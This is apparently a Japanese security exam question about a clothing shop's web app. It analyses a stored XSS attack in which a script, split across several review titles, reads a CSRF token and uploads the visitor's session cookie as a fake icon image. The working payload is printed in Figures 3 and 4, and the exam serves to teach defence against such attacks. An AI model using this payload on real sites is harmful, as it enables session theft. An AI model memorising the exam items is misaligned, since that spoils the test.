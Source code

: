 ## 問1 Web アプリケーションプログラムの開発に関する次の記述を読んで、設問に答えよ。

Q社は、洋服のEC事業を手掛ける従業員 100名の会社である。WebアプリQというWeb アプリケーションプログラムでECサイトを運営している。ECサイトのドメイン名は“□□□.co.jp”であり、利用者は Web アプリ Qに HTTPS でアクセスする。WebアプリQの開発と運用は、Q社開発部が行っている。今回、Web アプリQに、ECサイトの会員による商品レビュー機能を追加した。図1は、WebアプリQの主な機能である。

**図1 Web アプリQの主な機能**

1.  **会員登録機能**
    ECサイトの会員登録を行う。

2.  **ログイン機能**
    会員IDとパスワードで会員を認証する。 ログインした会員には、セッションIDをcookieとして払い出す。

3.  **カートへの商品の追加及び削除機能**
    (省略)

4.  **商品の購入機能**
    ログイン済み会員だけが利用できる。
    (省略)

5.  **商品レビュー機能**
    商品レビューを投稿したり閲覧したりするページを提供する。 商品レビューの投稿は、ログイン済み会員だけが利用できる。 会員がレビューページに入力できる項目のうち、レビュータイトルとレビュー詳細の欄は自由記述が可能であり、それぞれ50字と300字の入力文字数制限を設けている。

6.  **会員プロフィール機能**
    アイコン画像をアップロードして設定するためのページ(以下、会員プロフィール設定ページという)や、クレジットカード情報を登録するページを提供する。 どちらのページもログイン済み会員だけが利用できる。 アイコン画像のアップロードは、次をパラメータとして、`https://□□□.co.jp/user/upload` に対して行う。

      * 画像ファイル¹⁾
      * `https://□□□.co.jp/user/profile` にアクセスして払い出されたトークン²⁾

    パラメータのトークンが, `https://□□□.co.jp/user/profile` にアクセスして払い出されたものと一致したときは、アップロードが成功する。 アップロードしたアイコン画像は、会員プロフィール設定ページや、レビューページに表示される。
    (省略)

*注1) パラメータ名は、“uploadfile”である。*
*注2) パラメータ名は, "token"である。*

-----

ある日、会員から、無地Tシャツのレビューページ(以下、ページVという)に16件表示されるはずのレビューが2件しか表示されていないという問合せが寄せられた。 開発部のリーダーであるNさんがページVを閲覧してみると、画面遷移上おかしな点はなく、図2が表示された。

**図2 ページV**
*注記) Tシャツの画像は、会員がアイコン画像をアップロードしていない場合に表示される画像である。*

**商品レビュー 無地Tシャツ**


レビューを投稿する

★4.9 16件のレビュー

（変換不可のため省略）
**会員A**
2023年4月10日
★★★★★ Good
Nice shirt!

（変換不可のため省略）
**会員B**
2023年4月1日
★★★★ 形も素材も良い
サイズ感がぴったりフィットして気に入っています(>\_<)
手触りも良く、値段を考えると良い商品です。

以上、全16件のレビュー

Web アプリQのレビューページでは、次の項目がレビューの件数分表示されるはずである。

  * レビューを投稿した会員のアイコン画像
  * レビューを投稿した会員の表示名
  * レビューが投稿された日付
  * レビュー評価 (1~5個の★)
  * 会員が入力したレビュータイトル
  * 会員が入力したレビュー詳細

不審に思ったNさんはページVのHTMLを確認した。 図3は、ページVのHTMLである。

**図3 ページVのHTML**

```html
(省略)
<div class="review-number">16件のレビュー</div>
<div class="review">
<div class="icon"><img src="/users/dac6c8f12f867ed5/icon.png"></div>
<div class="displayname">会員 A</div>
<div class="date">2023年4月10日 </div><div class="star">★★★★★</div>
<div class="review-title">Good<script>xhr=new XMLHttpRequest();/*</div>
<div class="description">a</div>
</div>
<div class="review">
<div class="icon"><img src="/users/dac6c8f12f867ed5/icon.png"></div>
<div class="displayname">会員 A</div>
<div class="date">2023年4月10日 </div><div class="star">★★★★★</div>
<div class="review-title">*/url1="https://□□□.co.jp/user/profile"; /*</div>
<div class="description">a</div>
</div>
(省略)
<div class="review">
<div class="icon"><img src="/users/dac6c8f12f867ed5/icon.png"></div>
<div class="displayname">会員 A</div>
<div class="date">2023年4月10日 </div><div class="star">★★★★★</div>
<div class="review-title">*/xhr2.send(form); } </script></div>
<div class="description">Nice shirt!</div>
</div>
<div class="review">
<div class="icon"><img src="/users/94774f6887f73b91/icon.png"></div>
<div class="displayname">会員 B</div>
<div class="date">2023年4月1日 </div><div class="star">★★★★</div>
<div class="review-title">形も素材も良い</div>
<div class="description">サイズ感がぴったりフィットして気に入っています(&gt; &lt;) <br>
手触りも良く、値段を考えると良い商品です。</div>
</div>
<div class="review-end">以上、全16件のレビュー</div>
(省略)
```


図3のHTMLを確認したNさんは、会員Aによって15件のレビューが投稿されていること、及びページVには長いスクリプトが埋め込まれていることに気付いた。 Nさんは、ページVにアクセスしたときに生じる影響を調査するために、アクセスしたときに Web ブラウザで実行されるスクリプトを抽出した。 図4は、Nさんが抽出したスクリプトである。

**図4 Nさんが抽出したスクリプト**
*注記 スクリプトの整形とコメントの追記は、Nさんが実施したものである。*

```javascript
1: xhr = new XMLHttpRequest();
2: url1 = "https://□□□.co.jp/user/profile";
3: xhr.open("get", url1);
4: xhr.responseType = "document"; // レスポンスをテキストではなくDOMとして受信する。
5: xhr.send();
6: xhr.onload = function() {
   // 以降は、1回目のXMLHttpRequest (XHR)のレスポンスの受信に成功してから実行される。
7:   page = xhr.response;
8:   token = page.getElementById("token").value;
9:   xhr2 = new XMLHttpRequest();
10:  url2= "https://□□□.co.jp/user/upload";
11:  xhr2.open("post", url2);
12:  form = new FormData();
13:  cookie = document.cookie;
14:  fname = "a.png";
15:  ftype="image/png";
16:  file = new File([cookie], fname, {type: ftype});
     // アップロードするファイルオブジェクト
     // 第1引数: ファイルコンテンツ
     // 第2引数: ファイル名
     // 第3引数: MIMEタイプなどのオプション
17:  form.append("uploadfile", file);
18:  form.append("token", token);
19:  xhr2.send(form);
20: }
```


Nさんは、会員 A の投稿はクロスサイトスクリプティング (XSS) 脆弱性を悪用した攻撃を成立させるためのものであるという疑いをもった。 Nさんが Web アプリQを調べたところ、Web アプリ Qには、会員が入力したスクリプトが実行されてしまう脆弱性があることを確認した。 加えて、WebアプリQがcookie に HttpOnly 属性を付与していないこと及びアップロードされた画像ファイルの形式をチェックしていないことも確認した。
Q社は、必要な対策を施し、会員への必要な対応も行った。

### 設問1

この攻撃で使われた XSS 脆弱性について答えよ。
(1) XSS 脆弱性の種類を解答群の中から選び、記号で答えよ。
**解答群**
ア DOM Based XSS イ 格納型 XSS ウ 反射型 XSS
(2) Web アプリQにおける対策を、30字以内で答えよ。

### 設問2

図3について、入力文字数制限を超える長さのスクリプトが実行されるようにした方法を、50字以内で答えよ。

### 設問3

図4のスクリプトについて答えよ。
(1) 図4の6〜20行目の処理の内容を 60字以内で答えよ。
(2) 攻撃者は、図4のスクリプトによってアップロードされた情報をどのようにして取得できるか。 取得する方法を 50字以内で答えよ。
(3) 攻撃者が(2)で取得した情報を使うことによってできることを、40字以内で答えよ。

### 設問4

仮に、攻撃者が用意したドメインのサイトに図4と同じスクリプトを含む HTMLを準備し、そのサイトに Web アプリQのログイン済み会員がアクセスしたとしても、Web ブラウザの仕組みによって攻撃は成功しない。 この仕組みを 40字以内で答えよ。

-----
